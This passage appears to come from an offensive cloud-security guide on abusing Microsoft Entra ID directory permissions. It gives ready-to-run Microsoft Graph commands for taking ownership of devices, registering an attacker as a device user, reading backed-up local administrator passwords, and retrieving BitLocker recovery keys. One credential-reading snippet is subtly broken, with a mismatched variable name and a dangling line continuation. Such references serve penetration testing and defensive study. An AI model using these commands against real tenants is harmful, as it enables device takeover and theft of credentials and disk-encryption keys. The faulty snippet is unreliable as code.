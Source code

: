This permission allows attackers to assigning themselves as owners of devices to gain control or access to device-specific settings and data.

```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/devices/$deviceId/owners/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```

### `microsoft.directory/devices/registeredUsers/update`

This permission allows attackers to associate their account with devices to gain access or to bypass security policies.

```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/devices/$deviceId/registeredUsers/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```

### `microsoft.directory/deviceLocalCredentials/password/read`

This permission allows attackers to read the properties of the backed up local administrator account credentials for Microsoft Entra joined devices, including the password

{% code overflow="wrap" %}
```bash
# List deviceLocalCredentials 
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials"

# Get credentials
deviceLC="<deviceLCID>"
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials/$deviceLCID?\$select=credentials" \
```
{% endcode %}

## BitlockerKeys

### `microsoft.directory/bitlockerKeys/key/read`

This permission allows to access BitLocker keys, which could allow an attacker to decrypt drives, compromising data confidentiality.

{% code overflow="wrap" %}
```bash
# List recovery keys
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys"

# Get key
recoveryKeyId="<recoveryKeyId>"
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys/$recoveryKeyId?\$select=key"
```
{% endcode %}
